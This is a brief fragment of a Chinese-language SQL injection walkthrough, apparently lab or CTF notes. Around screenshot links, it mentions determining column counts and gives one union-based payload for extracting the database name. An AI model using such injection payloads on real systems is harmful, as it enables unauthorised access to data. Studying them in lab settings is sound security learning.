 ![image-20250121082600253](../../_media/image-20250121082600253.png)



然后还是一样，判断列数

![image-20250121082706952](../../_media/image-20250121082706952.png)

爆破库名

```
-1' union select 1,database()#
```
